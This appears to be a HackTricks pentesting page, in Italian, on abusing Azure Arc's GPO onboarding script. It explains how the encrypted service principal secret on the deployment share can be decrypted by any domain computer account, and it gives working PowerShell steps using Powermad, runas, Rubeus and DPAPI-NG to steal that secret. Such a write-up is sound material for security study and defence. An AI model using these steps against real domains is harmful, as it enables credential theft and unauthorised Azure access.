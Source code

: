 # Az - Arc vulnerable GPO Deploy Script

{{#include ../../../banners/hacktricks-training.md}}

### Identifying the Issues

Azure Arc consente l'integrazione di nuovi server interni (server del dominio unito) in Azure Arc utilizzando il metodo del Group Policy Object. Per facilitare ciò, Microsoft fornisce un toolkit di distribuzione necessario per avviare la procedura di onboarding. All'interno del file ArcEnableServerGroupPolicy.zip, si possono trovare i seguenti script: DeployGPO.ps1, EnableAzureArc.ps1 e AzureArcDeployment.psm1.

Quando viene eseguito, lo script DeployGPO.ps1 esegue le seguenti azioni:

1. Crea il GPO di Onboarding dei Server Azure Arc all'interno del dominio locale.
2. Copia lo script di onboarding EnableAzureArc.ps1 nella condivisione di rete designata creata per il processo di onboarding, che contiene anche il pacchetto di installazione di Windows.

Quando si esegue questo script, gli amministratori di sistema devono fornire due parametri principali: **ServicePrincipalId** e **ServicePrincipalClientSecret**. Inoltre, richiede altri parametri come il dominio, il FQDN del server che ospita la condivisione e il nome della condivisione. Ulteriori dettagli come l'ID del tenant, il gruppo di risorse e altre informazioni necessarie devono essere forniti allo script.

Un segreto crittografato viene generato nella directory AzureArcDeploy sulla condivisione specificata utilizzando la crittografia DPAPI-NG. Il segreto crittografato è memorizzato in un file chiamato encryptedServicePrincipalSecret. Prove di ciò possono essere trovate nello script DeployGPO.ps1, dove la crittografia viene eseguita chiamando ProtectBase64 con $descriptor e $ServicePrincipalSecret come input. Il descriptor consiste negli SID dei gruppi Domain Computer e Domain Controller, garantendo che il ServicePrincipalSecret possa essere decrittografato solo dai Domain Controllers e dai gruppi di sicurezza Domain Computers, come indicato nei commenti dello script.
```powershell
# Encrypting the ServicePrincipalSecret to be decrypted only by the Domain Controllers and the Domain Computers security groups
$DomainComputersSID = "SID=" + $DomainComputersSID
$DomainControllersSID = "SID=" + $DomainControllersSID
$descriptor = @($DomainComputersSID, $DomainControllersSID) -join " OR "
Import-Module $PSScriptRoot\AzureArcDeployment.psm1
$encryptedSecret = [DpapiNgUtil]::ProtectBase64($descriptor, $ServicePrincipalSecret)
```
### Exploit

Abbiamo le seguenti condizioni:

1. Abbiamo penetrato con successo la rete interna.
2. Abbiamo la capacità di creare o assumere il controllo di un account computer all'interno di Active Directory.
3. Abbiamo scoperto una condivisione di rete contenente la directory AzureArcDeploy.

Ci sono diversi metodi per ottenere un account macchina all'interno di un ambiente AD. Uno dei più comuni è sfruttare il quota degli account macchina. Un altro metodo implica compromettere un account macchina attraverso ACL vulnerabili o varie altre configurazioni errate.
```powershell
Import-MKodule powermad
New-MachineAccount -MachineAccount fake01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```
Una volta ottenuto un account macchina, è possibile autenticarsi utilizzando questo account. Possiamo utilizzare il comando runas.exe con il flag netonly oppure utilizzare pass-the-ticket con Rubeus.exe.
```powershell
runas /user:fake01$ /netonly powershell
```

```powershell
.\Rubeus.exe asktgt /user:fake01$ /password:123456 /prr
```
Avendo il TGT per il nostro account computer memorizzato in memoria, possiamo utilizzare il seguente script per decrittografare il segreto del principal del servizio.
```powershell
Import-Module .\AzureArcDeployment.psm1

$encryptedSecret = Get-Content "[shared folder path]\AzureArcDeploy\encryptedServicePrincipalSecret"

$ebs = [DpapiNgUtil]::UnprotectBase64($encryptedSecret)
$ebs
```
Alternativamente, possiamo utilizzare [SecretManagement.DpapiNG](https://github.com/jborean93/SecretManagement.DpapiNG).

A questo punto, possiamo raccogliere le informazioni rimanenti necessarie per connetterci ad Azure dal file ArcInfo.json, che è memorizzato sulla stessa condivisione di rete del file encryptedServicePrincipalSecret. Questo file contiene dettagli come: TenantId, servicePrincipalClientId, ResourceGroup e altro. Con queste informazioni, possiamo utilizzare Azure CLI per autenticarsi come il service principal compromesso.

## Riferimenti

- [https://xybytes.com/azure/Abusing-Azure-Arc/](https://xybytes.com/azure/Abusing-Azure-Arc/)

{{#include ../../../banners/hacktricks-training.md}}
